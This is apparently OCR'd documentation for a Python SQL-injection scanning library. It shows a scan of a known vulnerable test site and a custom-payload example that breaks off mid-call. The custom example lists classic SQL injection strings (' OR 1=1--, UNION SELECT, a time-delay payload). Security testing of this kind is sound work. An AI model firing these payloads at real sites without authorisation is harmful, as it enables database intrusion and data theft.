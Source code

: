 ```python
import asyncio
from sqlinjector import VulnerabilityScanner
from sqlinjector.models import ScanConfig, HttpMethod

async def test_login_form():
    config = ScanConfig(
        url="https://testphp.vulnweb.com/login.php",
        method=HttpMethod.POST,
        data={
            "uname": "admin", 
            "pass": "password"
        },
        headers={
            "User-Agent": "SQLInjector Security Test",
            "Content-Type": "application/x-www-form-urlencoded"
        },
        delay=1.0,  # Be respectful
        max_payloads_per_type=10
    )
    
    scanner = VulnerabilityScanner(config)
    result = await scanner.scan()
    
    if result.vulnerabilities:
        print(f"🚨 Found {len(result.vulnerabilities)} vulnerabilities!")
        for vuln in result.vulnerabilities:
            print(f"  - {vuln.injection_type.value} in '{vuln.parameter}'")
    else:
        print("✅ No vulnerabilities detected")

asyncio.run(test_login_form())
```

### Custom Payload Testing

```python
from sqlinjector import SQLInjector
from sqlinjector.models import ScanConfig, InjectionPoint, HttpMethod

async def test_custom_payload():
    config = ScanConfig(
        url="https://vulnerable-app.com/search.php",
        timeout=15.0
    )
    
    # Create injection point
    injection_point = InjectionPoint(
        parameter="q",
        value="test",
        location="query",
        method=HttpMethod.GET
    )
    
    # Custom payloads
    custom_payloads = [
        "' OR 1=1--",
        "' UNION SELECT version()--",
        "'; WAITFOR DELAY '00:00:05'--"
    ]
    
    async with SQLInjector(config) as injector:
        results = await injector.test_injection_point_async(
            injection_point, 
```
